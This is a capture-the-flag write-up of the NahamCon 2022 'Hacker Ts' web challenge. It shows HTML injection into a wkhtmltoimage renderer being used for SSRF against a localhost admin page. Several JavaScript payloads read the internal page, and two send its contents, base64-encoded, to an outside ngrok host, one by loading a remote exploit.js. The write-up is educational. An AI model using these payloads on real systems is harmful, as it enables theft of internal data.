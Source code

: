 ```yaml
---
title: "Hacker Ts challenge writeup"
author: "0xMesbaha"
header:
  teaser: "/assets/images/CTFs/Flag.png"
tags: ["CTF", "html injection", "SSRF"]
date: 2022-05-02T12:49:18+34:08
toc: true
draft: false
categories:
  - Web Exploitation 
ribbon: red
---
```


Nahamcon ctf 2022 was held from the 28th of April Until the 30th of the month , and we have participated under the team 0xcha0s. this challenge idea was pretty new to me so it is helpful to document it in this writeup

<!--more-->

|           |                                               |
| --------- | --------------------------------------------- |
| CTF name  | [NahamconCTF 2022](https://www.nahamcon.com/) |
| challenge | Hacker Ts                                     |
| category  | web                                           |
| about     | HTML injection                                |
| team      | [0xCha0s](https://ctftime.org/team/168238)    |

we are introduced with this page , it can take a text as input and we can also specify the color

![error](/assets/images/CTFs/Hacker-Ts/20220430232105.png)

- and the output is :

![error](/assets/images/CTFs/Hacker-Ts/20220430232158.png)

- Also we can see the **Admin** tab above it shows the following :

![error](/assets/images/CTFs/Hacker-Ts/20220430232228.png)

- So our goal is to view the admin page , mentioning the `localhost:5000` should trigger you for SSRF most likely.

- We can try to inject html code and see if it gets rendered `<h1>test</h1>`

![error](/assets/images/CTFs/Hacker-Ts/20220430232530.png)

- and it worked indeed , we can try to execute some JS , start with `<script>alert(1);</script>` But it shows empty t-shirt
- we can try :

```html
<p id="test">aa</p>
<script>
  document.getElementById("test").innerHTML += window.location;
</script>
```

![error](/assets/images/CTFs/Hacker-Ts/20220430233020.png)

- we can try to trigger an error while processing to get more information with replacing `test` with `X`

![error](/assets/images/CTFs/Hacker-Ts/20220430233123.png)

- we got this error , we know it uses `wkhtmltoimage` to make the process , searching for it found the following articles :

- [Nahmasec](https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/htmlpresent)
- [here](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f)
- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)

- we can craft payloads to make it visit the admin page and view the response for us :

## Approach 1

```html
<h1 id="0xMesbaha"></h1>
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://localhost:5000/admin", false);
  xhr.send();
  document.getElementById("0xMesbaha").innerHTML = xhr.responseText;
</script>
```

the false in `xhr.open ` :

```bash
async parameter which is optional , If this value is false, the send() method does not return until the response is received.
```

![error](/assets/images/CTFs/Hacker-Ts/20220430234539.png)

## Approach 2

- we can also use other payload to take the response then send it to remote server :
- in the text input :

```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://localhost:5000/admin");
  xhr.onload = function () {
    var flag = btoa(xhr.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://ee3f-156-194-180-190.ngrok.io/?flag=" + flag);
    exfil.send();
  };
  xhr.send();
</script>
```

![error](/assets/images/CTFs/Hacker-Ts/20220430235147.png)

- decode it :

![error](/assets/images/CTFs/Hacker-Ts/20220430235227.png)

## Approach 3

- we can also go to another approach , which is hosting `exploit.js` contains :

```javascript
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://localhost:5000/admin");
xhr.onload = function () {
  var flag = btoa(xhr.responseText);
  var exfil = new XMLHttpRequest();
  exfil.open("GET", "http://6ce0-156-194-180-190.ngrok.io/?flag=" + flag);
  exfil.send();
};
xhr.send();
```

- then on the text input use :

```html
<script src="http://6ce0-156-194-180-190.ngrok.io/exploit.js"></script>
```

- same output :

![error](/assets/images/CTFs/Hacker-Ts/20220430235602.png)
